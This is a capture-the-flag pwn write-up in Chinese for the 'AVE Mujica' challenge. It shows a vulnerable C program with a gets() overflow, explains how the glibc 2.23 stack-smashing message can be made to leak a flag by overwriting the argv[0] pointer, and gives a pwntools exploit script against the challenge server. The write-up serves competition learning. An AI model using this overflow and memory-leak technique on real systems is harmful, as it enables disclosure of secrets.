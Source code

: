 # 🎭🎭🎭🎭🎭Welcome to AVE Mujica🎶
> Author: 堇姬Naup

tag: `pwn`

## 分析
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>

int main() {

    setvbuf(stdin, 0, _IONBF, 0);
    setvbuf(stdout, 0, _IONBF, 0);

    void *stage;
    int AVEmujica;
    char your_input[16];

    AVEmujica = open("/home/chal/flag", O_RDONLY);
    printf("=====================================================\n");
    printf("…ようこそ。Ave Mujica の世界へ\n");
    printf("=====================================================\n");
    if (AVEmujica < 0) {
        printf("CRYCHIC Funeral\n");
        exit(0);
    }

    stage = malloc(0x100);
    read(AVEmujica, stage, 0x100);
    printf("Where is AVE Mujica: %p\n", stage);
    printf("呪縛なの？\n救済なの？ ");
    gets(your_input);
    printf("Ave Musica…戻れない所まで\n");

    return 0;
}

```

他malloc一塊chunk並存放AVEmujica(flag)
並且使用者可以輸入一些東西，這裡存在無長度限制的buffer overflow					  
					 
## 攻擊					   
有buffer overflow了但是會碰到很多問題，首先是保護全開
再來是可以寫ret address但是不知道要寫甚麼，ROPgadget不夠，又沒辦法leaklibc					   
					   
我們只有flag的位置而已
					   
![stack_smashing](img/stack_smashing.png)

這邊觀察一件事，當我們在glibc 2.23觸發stack smashing detect的時候，他會噴出./demo，也就是你ELF的位置			
					   
他是去哪裡找到ELF的路徑的					   
					   
接下來來翻source code					   

通常如果有開canary會在最下方看到`__stack_chk_fail`	
追進去看會call `__fortify_fail`					   
https://elixir.bootlin.com/glibc/glibc-2.23.90/source/debug/stack_chk_fail.c
```c
void
__attribute__ ((noreturn))
__stack_chk_fail (void)
{
  __fortify_fail ("stack smashing detected");
}
```

`__fortify_fail`會call __libc_message，ELF路徑就是`__libc_argv[0]`					  
https://elixir.bootlin.com/glibc/glibc-2.23.90/source/debug/fortify_fail.c#L26
```c
void
__attribute__ ((noreturn)) internal_function
__fortify_fail (const char *msg)
{
  /* The loop is added only to keep gcc happy.  */
  while (1)
    __libc_message (2, "*** %s ***: %s terminated\n",
		    msg, __libc_argv[0] ?: "<unknown>");
}
```					   
					   
這是一個在stack上的一個pointer，這裡會印出他指向位置上的值					   
結合buffer overflow，如果我們能一直往下蓋，把該pointer蓋成flag的位置，就可以透過stack smashing去leak出flag了

PS: 如果認真觀察會發現一件事，原本應該是不會輸出error message給你，但是我把`exec 2>/dev/null`給拔掉了，所以說錯誤訊息會回顯，因此可以用此方法。

## script
```python
from pwn import *

r=remote("cha-thjcc.scint.org",10100)

r.recvuntil(b"Where is AVE Mujica: ")
address = int(r.recvline().strip(),16)
r.sendline(b'a'*0x10+p64(address)*200)

r.interactive()
```
